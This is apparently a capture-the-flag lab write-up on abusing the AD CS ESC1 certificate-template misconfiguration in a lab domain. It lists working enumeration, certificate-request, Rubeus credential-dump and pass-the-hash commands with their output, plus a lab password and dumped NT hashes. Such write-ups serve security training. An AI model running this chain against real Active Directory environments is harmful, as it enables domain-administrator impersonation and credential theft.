








## Entry

### ➜ Key Functions of ADCS
Active Directory Certificate Services (AD CS) is used to issue and manage digital certificates within an Active Directory environment. Its core functions include:

>Integration with AD: Seamless integration with Active Directory for certificate issuance tied to user and machine identities.

>Certificate Authority (CA): Acts as a trusted entity that issues certificates by binding public keys to user or machine identities.

>Key Pair Generation: Clients generate a private key and send a public key in a Certificate Signing Request (CSR).

>CSR Submission: The CSR, which includes identity and template info, is sent to the Enterprise CA.

>Verification Process: The CA verifies permissions and ensures the client is allowed to request certificates based on the template.

>Certificate Issuance: If valid, the CA signs and returns a certificate to the client, which can then be used for secure authentication or communication.

## Windows Abuse with Cobalt Strike

First of all before we start i wanna enum fully cause to be sure its not honeypot lol xD

### ➜ Enumerate
Command to execute:
```sh
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=sequel,DC=htb' | Select-Object -ExpandProperty DistinguishedName
```


Now running [Certify.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe) for find vulnerable template and CA tho.

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe find /vulnerable
```


The `UserAuthentication` certificate template is vulnerable to ESC1 due to the following conditions:
* Enrollment Permissions: sequel.htb\Authenticated Users can request certificates, which includes us.

> Fallback via Computer Accounts: Even if user enrollment were restricted, sequel.htb\Domain Computers can enroll — meaning we can create a machine account and still obtain a certificate.
{: .prompt-tip }

* Client Authentication EKU: The certificate includes the Client Authentication purpose, making it valid for AD authentication.

* EnrolleeSuppliesSubject Enabled: This critical misconfiguration allows us to define the subject of the certificate, letting us impersonate any user — including the domain admin.

We can now exploit this by using Certipy to request a certificate impersonating the Administrator account via the vulnerable template.

### ➜ Attack

>-> CA value : dc.sequel.htb\sequel-DC-CA

>-> Template value : UserAuthentications

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```


it will give us cert.pem we have to convert it to pfx here is why

> Windows uses .pfx or .p12 format for importing certificates into the certificate store (e.g., via MMC).
{: .prompt-tip }




We have pem file lets convert it pfx.

Command to execute:
```sh
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```


Lets upload it C:\ProgramData for example.



Now time to use Rubeus with `/getcredentials` `/show` `/nowrap`. This will  try to dump credential information about the account:

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:Administrator /certificate:C:\ProgramData\cert.pfx /getcredentials /show /nowrap
```


Lets verify it
```sh
➜  ESC1 nxc smb 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\Administrator:A52F78E4C751E5F5E17E1E9F3E58F4EE (Pwn3d!)
```

## Linux Abuse

We will do same things for ESC1. grab CA and Template name and request Administrator(or wthatever) pfx.

Command to execute:
```sh
certipy-ad find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```



and request the pfx.

> If you get a timeout error, just try running the command again.
{: .prompt-tip}

```sh
➜  ESC1 certipy-ad req -u Ryan.Cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -key-size 4096 -sid 'S-1-5-21-4078382237-1492182817-2568127209-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
> Sometimes u will get `KRB_AP_ERR_SKEW(Clock skew too great)` error so always use.
{: .prompt-tip}

```sh
➜  ESC1 faketime "$(ntpdate -q DC.sequel.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb -dc-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

